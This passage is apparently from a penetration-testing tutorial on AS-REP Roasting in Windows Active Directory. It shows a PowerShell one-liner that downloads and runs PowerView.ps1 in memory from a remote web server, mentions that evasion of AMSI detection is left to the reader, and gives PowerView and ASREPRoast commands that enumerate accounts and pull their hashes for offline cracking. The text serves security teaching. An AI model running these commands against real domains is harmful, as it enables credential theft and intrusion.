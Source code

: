 

### [](#header-3)From Windows



Just like Kerberoasting AS-REP Roasting can be done from both Windows & Linux but we will cover Windows first as it's much more convenient. We are attacking windows after all!  



#### [](#header-4)Powerview



 **Enumeration**

First let's import `PowerView.ps1` into Memory with 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')
```



As said above under `Kerberoasting` `AMSI` will probably flag this on `WIN10 1803` but I will leave evasion upto yourselves.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

```powershell
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

You can also do the below

```powershell
Get-DomainUser victimuser | Convert-FromUACValue
```



**Exploit**

Armed with our target user with `DONT_REQ_PREAUTH` set we can now request the relevant ticket to crack offline. Sadly `PowerView.ps1` does not have a ASREP Roasting Function included however the author `harmj0y` or `PowerView` created a fantastic module to do this with

*https://github.com/HarmJ0y/ASREPRoast*



Simply Import the Module with 

```powershell
Import-Module .\ASREPRoast.ps1
```



And now we can simply run

```powershell
Get-ASRepHash -Domain m0chanAD.local -UserName m0chan
```


